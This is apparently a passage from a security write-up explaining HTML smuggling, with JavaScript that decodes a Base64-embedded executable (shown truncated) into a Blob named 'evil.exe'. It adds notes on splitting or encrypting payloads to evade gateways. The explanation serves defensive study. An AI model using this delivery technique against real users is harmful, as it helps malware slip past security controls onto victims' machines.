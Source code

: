 #### Base64 encoded data

```javascript
//convert function
function base64ToArrayBuffer(base64) {
    var binary_string = window.atob(base64);
    var len = binary_string.length;

    var bytes = new Uint8Array(len);
    for (var i = 0; i < len; i++) {
        bytes[i] = binary_string.charCodeAt(i);
    }
    return bytes.buffer;
}

//malware.exe encoded in Base64
var file = 'TVqQAAMAAAAEAAAA//8AALgAA[...]nBkYgA=';
var data = base64ToArrayBuffer(file);
```

As we observed, the malicious HTML file can deliver malware to the victim's machine through various methods. In this
scenario, the entire malware payload is encoded in base64 and embedded directly within the HTML file itself.
We can see the variable `file` containing the payload.

The function `base64ToArrayBuffer` converts the encoded payload into the actual bytes that make up the malicious file.

It is important to note that attackers can devise even more complex methods to deliver malware. For instance, they might
split the payload into several pieces, retrieve parts of it remotely, or use different encoding standards and encryption
techniques. These strategies significantly increase the likelihood of evading security measures such as web proxies,
firewalls, and email gateways.

#### JavaScript Blob

```javascript
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'evil.exe';
```

This is the core of the attack. The Blob object enables the creation of a file within the browser using JavaScript code.
Here is how Mozilla describes it:
> "The Blob interface represents a blob, which is a file-like object of immutable, raw data; they can be read as text or
> binary data, or converted into a ReadableStream so its methods can be used for processing the data.
> Blobs can represent data that isn't necessarily in a JavaScript-native format. The File interface is based on Blob,
> inheriting blob functionality and expanding it to support files on the user's system."
